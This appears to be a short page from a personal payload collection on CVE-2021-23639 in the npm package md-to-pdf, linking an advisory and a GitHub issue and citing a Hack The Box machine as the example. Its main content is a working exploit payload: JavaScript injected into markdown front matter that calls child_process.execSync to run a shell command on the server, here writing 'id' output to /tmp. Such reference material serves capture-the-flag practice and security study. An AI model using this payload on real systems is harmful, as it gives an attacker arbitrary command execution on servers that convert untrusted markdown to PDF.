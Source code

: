 ```yaml
---
layout: default
title: CVE-2021-23639 npm md-to-pdf
nav_order: 1
parent: Payloads
---
```


# CVE-2021-23639 npm md-to-pdf
{: .no_toc }

---

Need to read:
- <https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880>
- <https://github.com/simonhaenisch/md-to-pdf/issues/99>

Example: HTB - BlinkerFluids

Payload

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```
